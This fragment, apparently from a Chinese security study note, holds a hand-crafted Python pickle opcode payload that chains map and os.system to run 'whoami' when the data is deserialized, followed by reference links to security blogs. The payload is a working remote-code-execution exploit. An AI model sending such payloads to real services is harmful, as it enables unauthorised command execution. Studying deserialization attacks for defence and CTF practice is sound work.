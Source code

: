 还有

```
opcode=b'''c__builtin__
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
bytes
p4
(g3
t\x81.'''
```

参考资料

https://goodapple.top/archives/1069

https://tttang.com/archive/1782/#toc_waf

https://xz.aliyun.com/t/11807

https://xz.aliyun.com/t/12367

https://cloud.tencent.com/developer/article/2287499